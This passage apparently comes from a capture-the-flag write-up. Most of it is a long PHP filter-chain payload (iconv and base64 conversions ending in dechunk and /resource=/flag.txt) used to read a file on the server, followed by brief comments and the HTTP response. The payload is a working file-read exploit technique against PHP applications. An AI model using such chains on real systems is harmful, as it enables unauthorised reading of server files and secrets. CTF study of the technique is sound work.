base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode|dechunk|convert.base64-decode|convert.base64-decode/resource=/flag.txt
```

it is chonky boiiiii

but returns flag

```http
HTTP/1.1 200 OK
Date: Sat, 10 Feb 2024 00:10:21 GMT
Server: Apache/2.4.56 (Debian)
X-Powered-By: PHP/8.0.30
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 132
Connection: close
Content-Type: text/html; charset=UTF-8


Still Under Development<Br><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>
